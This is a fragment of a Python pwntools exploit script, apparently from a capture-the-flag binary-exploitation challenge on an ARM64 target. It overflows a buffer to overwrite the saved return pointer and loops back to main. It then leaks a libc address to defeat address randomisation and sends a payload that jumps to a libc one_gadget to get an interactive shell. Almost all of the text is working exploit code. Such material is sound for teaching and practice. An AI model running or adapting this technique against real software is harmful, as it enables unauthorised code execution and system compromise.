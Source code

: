 ```python
message += b"F" * 0x20                  # Start of padding to allow RP overwrite at end of vuln
message += p64(elf.symbols['main']+0x28)    # overwrites x30 (RP) at end of vuln

p.clean()       # Clean up the pipe (main handles the user prompt) and send another name to analysis
p.sendlineafter(b"message now: ",message)

LIBC_LEAK = p.read(4).strip()   # We'll get 4 bytes back for libc
LIBC_LEAK = u64(LIBC_LEAK.ljust(8,b"\x00"))
LIBC_LEAK = LIBC_LEAK - libc.symbols['printf']

libc.address = LIBC_LEAK

log.success(f"LEaked Libc: {hex(LIBC_LEAK)}")

################### PWNAGE HERE ##############

# Now we come back to the read call

libc_gadget = LIBC_LEAK + 0x3f0e0   # libc one_gadget offset
libc_pointer = STACK_LEAK + 0xc0    # Our libc gadget addess will be stored this offset from stack leak 
log.info(f"Ropping to {hex(libc_gadget)}")
log.info(f"Using pointer at {hex(libc_pointer)}")

pwn_message = p64(libc_gadget)          # We don't call the libc gadget direct - it needs to be pointed to
pwn_message += b"A"*0x20                # Fill buffer
pwn_message += p64(libc_gadget)   # This offset from our stack leak now points to the libc gadget
pwn_message += b"E"*0x40
p.sendline(pwn_message)

p.interactive()
```
